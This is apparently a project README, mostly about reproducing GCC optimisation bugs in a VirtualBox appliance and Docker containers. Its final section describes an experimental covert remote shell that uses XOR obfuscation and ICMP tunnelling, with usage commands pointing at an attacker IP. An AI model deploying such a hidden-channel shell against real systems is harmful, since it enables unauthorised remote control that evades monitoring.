 This contains information about each directory of the repository:

BugEnvironments:

** Note: The explanations below help reproduce only the bugs in bugs/Csmith and bugs/GCCsummit **

The gcc_install_script.sh is used to build a certain revision of gcc inside a virtual machine. I created a Ubuntu 9.10 (32-bit) virtual machine to be able to
reproduce gcc bug 42721. I created an appliance which you can import in
VirtualBox and see how the compiler behaves for the program in question. Steps to set-up the appliance:
1. sudo wget www.doc.ic.ac.uk/~ab7515/Ubuntu910.ova (Must be run as root)
2. Import appliance into VirtualBox
3. Login using username: andrei  and password: administrator
4. Access the buggy revision of gcc in ** /usr/local/bin/gcc ** and check  
   that the last line is 'gcc version 4.5.0 20100112 (experimental) GCC'
5. You can check that the small.c file under /home/andrei contains the concise
   version of the program, as specified in the Google document.
6. Compile using -O1 and -O2 flags and check that for -O2 the execution is aborted.


For ** all other ** gcc bugs, I created separate CentOS containers which you can
create and try as follows:
1. cd Dockerfiles
2. Identify the container you want to build corresponding to the bug id, as
documented in the Google document: dockerfile_gcc_<bug_id>
3. docker build -t centos_gcc_<bug_id> <Path to the folder containing the Dockerfile i.e dockerfile_gcc_<bug_id>/>
4. Make sure the PWD is the repository root (you want to access the bugs folder)
docker run -ti -v "$PWD":/usr/src/ -w /usr/src/ centos_gcc_<bug_id>
5. Note that the buggy version of gcc is ** /usr/local/bin/gcc **
6. Consult the Google doc ** Reported behaviour ** section for the chosen bug_id to check how to reproduce the bug.


bugs:

Csmith and GCCsummit contain bugs generated using Csmith. The file that must be compiled using the buggy gcc version is ** small.c **

Remote Shell:

The purpose of this shell is purely experimental. The code follows the one in
the tutorial at https://0x00sec.org/t/remote-shells-part-i/269.
There are two types of shells: one is a secure shell which uses repeated
xor with the number 42 (see https://linux.die.net/man/3/memfrob) and the
other is an 'invisible' shell which transmits the commands as ICMP packets.

1. Build using ** make all **
2. sudo ./remote_shell_exe c <attacker ip> (i.e. the client)
   sudo ./remote_shell_exe s <target ip>   (i.e. the server)
3. To check that the commands the client sends are ICMP packets:
   sudo tcpdump -nnXSs 0 -i lo icmp
